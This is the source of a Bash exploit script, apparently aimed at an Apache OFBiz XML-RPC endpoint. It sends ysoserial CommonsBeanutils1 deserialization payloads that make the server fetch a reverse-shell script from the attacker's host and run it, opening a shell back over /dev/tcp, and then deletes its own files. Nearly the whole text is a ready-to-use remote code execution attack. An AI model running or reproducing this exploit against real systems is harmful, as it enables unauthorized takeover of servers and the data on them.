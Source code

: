 ```java

function ctrl_c(){
    echo -e "\n\n[!] Exiting...\n"
    exit 1
}
# Ctrl + C
trap ctrl_c INT

function webRequest(){
    echo -e "\n[*] Creating a shell file with bash\n"
    echo -e "#!/bin/bash\n/bin/bash -i >& /dev/tcp/$ip/$ncport 0>&1" > shell.sh
    echo -e "[*] Downloading YsoSerial JAR File\n"
    wget -q https://jitpack.io/com/github/frohoff/ysoserial/master-d367e379d9-1/ysoserial-master-d367e379d9-1.jar
    echo -e "[*] Generating a JAR payload\n"
    payload=$(java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "wget $ip/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n")
    echo -e "[*] Sending malicious shell to server...\n" && sleep 0.5
    curl -s $url:$port/webtools/control/xmlrpc -X POST -d "<?xml version='1.0'?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'>$payload</serializable></value></member></struct></value></param></params></methodCall>" -k  -H 'Content-Type:application/xml' &>/dev/null
    echo -e "[*] Generating a second JAR payload"
    payload2=$(java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "bash /tmp/shell.sh" | base64 | tr -d "\n")
    echo -e "\n[*] Executing the payload in the server...\n" && sleep 0.5
    curl -s $url:$port/webtools/control/xmlrpc -X POST -d "<?xml version='1.0'?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'>$payload2</serializable></value></member></struct></value></param></params></methodCall>" -k  -H 'Content-Type:application/xml' &>/dev/null
    echo -e "\n[*]Deleting Files..."
    rm ysoserial-master-d367e379d9-1.jar && rm shell.sh
}

declare -i parameter_enable=0; while getopts ":i:p:h:" arg; do
    case $arg in
        i) ip=$OPTARG; let parameter_enable+=1;;
        p) ncport=$OPTARG; let parameter_enable+=1;;
        h) helpPanel;;
    esac
done

if [ $parameter_enable -ne 2 ]; then
    helpPanel
else
    webRequest
fi
```
